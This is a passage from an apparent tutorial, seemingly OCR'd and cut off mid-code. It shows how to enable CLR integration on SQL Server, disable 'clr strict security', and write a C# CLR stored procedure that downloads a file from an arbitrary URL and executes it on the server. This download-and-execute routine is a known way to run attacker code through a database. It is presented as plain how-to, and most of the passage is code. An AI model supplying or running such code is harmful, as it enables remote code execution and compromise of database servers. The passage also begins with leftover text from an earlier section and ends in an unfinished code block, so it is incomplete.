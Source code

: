 ### **Conclusion**

By running the provided T-SQL commands, you can easily determine whether CLR integration is supported and enabled on your SQL Server instance. If it’s disabled, you can enable it using the provided steps.

To download a file from a URL and execute it using SQL Server's CLR integration, you can create a CLR stored procedure in C#. This stored procedure will perform the following steps:

1. Download the file from the specified URL.
2. Save the file to a temporary location on the SQL Server machine.
3. Execute the downloaded file.

### **Step-by-Step Guide**

#### **1. Enable CLR Integration (if not already enabled)**

First, ensure that CLR integration is enabled on your SQL Server instance:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'clr enabled', 1;
RECONFIGURE;
EXEC sp_configure 'clr strict security', 0
RECONFIGURE;
```

#### **2. Create a C# CLR Stored Procedure**

You will need to write a C# class that contains the logic for downloading the file and executing it.

Here’s a simple example in C#:

```csharp
using System;
using System.Data.SqlTypes;
using System.Net;
using System.Diagnostics;
using Microsoft.SqlServer.Server;
using System.IO;

public class FileDownloader
{
    [SqlProcedure]
    public static void DownloadAndRun(SqlString url, SqlString filePath)
    {
        try
        {
            // Download the file
            WebClient client = new WebClient();
            client.DownloadFile(url.ToString(), filePath.ToString());

            // Execute the downloaded file
            Process process = new Process();
            process.StartInfo.FileName = filePath.ToString();
            process.StartInfo.UseShellExecute = false;
            process.StartInfo.RedirectStandardOutput = true;
            process.Start();

            // Capture and display the output from the process (if needed)
            string output = process.StandardOutput.ReadToEnd();
            process.WaitForExit();

            SqlContext.Pipe.Send(output);
        }
```